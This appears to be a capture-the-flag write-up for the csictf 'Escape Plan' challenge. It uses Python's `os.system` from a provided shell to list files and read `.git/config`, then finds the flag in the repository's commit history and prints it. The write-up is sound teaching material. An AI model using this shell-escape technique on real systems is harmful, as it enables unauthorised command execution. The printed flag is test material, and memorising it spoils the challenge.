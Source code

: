 # Escape Plan

We are given a python shell.
Run shell commands using `os.system` in python.

```py
__import__('os').system('ls -a')
```

```txt
.
..
.git
crypto.py
start.sh
```

We see its a git repository.

```py
__import__('os').system('cat .git/config')
```

```txt
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
[remote "origin"]
    url = https://github.com/alias-rahil/crypto-cli
    fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
    remote = origin
    merge = refs/heads/master

```

Now, go to url, and see older commits. Flag is in <https://github.com/alias-rahil/crypto-cli/commit/49a38ff762edca98ce3135e2acfbcc8e05161b4f>.  

```txt
csictf{2077m4y32_h45_35c4p3d}
```

